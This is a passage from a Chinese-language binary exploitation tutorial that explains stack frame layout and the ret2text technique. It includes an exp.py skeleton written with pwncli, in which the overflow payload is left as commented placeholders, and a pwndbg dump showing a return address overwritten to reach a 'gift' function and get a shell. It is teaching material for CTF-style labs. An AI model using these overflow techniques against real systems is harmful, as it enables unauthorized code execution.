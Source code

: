 上面 rsi 和栈顶指针 rsp 都指向 buf 的起始地址，栈底指针 rbp 指向 rsp+0x20 的位置，而 rbp 再下面一个位置明显指向一段代码，这就是返回地址了。

> [!INFO]
> 函数中局部变量大小为 0x20 个字节，而返回地址却在 rsp+0x28 的位置，那 rsp+0x20 的位置，即 rbp 现在所指的位置上放着什么？
> 
> 事实上，这个位置是存放上个函数 rbp 的，这在章节 0.4 中已经有所介绍，对此感到疑惑的同学可以参考前面的内容来理解栈帧的结构。
> 
> 由于 main 函数此时是程序中调用的第一个有完整栈帧结构的函数，因此 rbp 所指内存地址上的值是 0。

本例中我们使用一些字符来占位，最终实现修改函数返回地址的目标，exp.py 如下：

```python
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

ru(b'Give me your data: \n')
# payload = b"a"*(YOUR_OVERFLOW_LENGTH)
# payload += p64(elf.symbols['WHICH_FUNCTION?'])
s(payload)

ia()
```

可以进行调试，发现 read 过后栈上布局如下：

```bash
pwndbg> stack
00:0000│ rsi rsp 0x7ffd5ad25db0 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓            4 skipped
05:0028│         0x7ffd5ad25dd8 —▸ 0x401176 (gift) ◂— endbr64
06:0030│         0x7ffd5ad25de0 —▸ 0x7f74b9060620 (_rtld_global_ro) ◂— 0x50f5500000000
```

可以看到返回地址已经成功被覆盖为 gift 函数的地址，继续运行即可劫持程序执行流程到 gift 函数中，最终 `getshell`。

上面我们劫持控制流，使程序返回到代码段已有函数的技巧也被称作 `ret2text`。

---
# 1.1 ROP 链

